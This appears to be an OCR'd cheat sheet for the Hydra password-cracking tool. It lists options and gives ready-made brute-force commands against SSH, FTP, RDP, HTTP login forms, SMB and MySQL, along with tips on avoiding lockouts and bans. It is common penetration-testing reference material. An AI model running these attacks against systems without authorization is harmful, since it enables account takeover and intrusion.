 🐉 Hydra Cheat Sheet
✅ Basic Syntax

hydra [OPTIONS] [TARGET] [PROTOCOL]

or

hydra -L userlist.txt -P passlist.txt <target> <service>

📌 Common Options
Option	Description  
-L	Path to a username list  
-l	Single username  
-P	Path to a password list  
-p	Single password  
-t	Number of parallel tasks (default 16)  
-s	Specify a custom port  
-f	Stop when a valid pair is found  
-o	Write output to a file  
-V	Verbose mode (shows attempts)  
🌐 Supported Protocol Examples  

Hydra supports many, such as:  

    ssh  

    ftp  

    http-get / http-post  

    https-get / https-post  

    smb  

    rdp  

    vnc  

    mysql  

    postgres  
    …and more. Use hydra -h to list them.  

🔑 Example Commands  
SSH Brute Force  

hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10  

FTP Brute Force  

hydra -L users.txt -P passwords.txt ftp://192.168.1.100  

RDP Brute Force (change 3389 if needed)  

hydra -t 4 -V -f -L users.txt -P passwords.txt rdp://10.10.10.20  

HTTP POST Form Brute Force  

hydra -L users.txt -P passwords.txt 10.10.10.5 http-post-form \  
"/login:username=^USER^&password=^PASS^:F=incorrect"  

👉 Replace:  

    /login with the form action  

    username= and password= with the form fields  

    F=incorrect with a string that appears on failure  

SMB Brute Force  

hydra -L users.txt -P passwords.txt smb://192.168.1.50  

MySQL Brute Force  

hydra -L users.txt -P passwords.txt mysql://10.10.10.7  

🛠 Tips  

✅ Start with smaller user/pass lists to avoid lockouts  
✅ Increase tasks (-t) for speed but watch for bans  
✅ Combine with tools like Burp for custom HTTP requests  
✅ Check firewall restrictions and ensure you have authorization  
💾 Save Output  

hydra -L users.txt -P passwords.txt ssh://target -o hydra_results.txt  

📖 Help  

hydra -h  
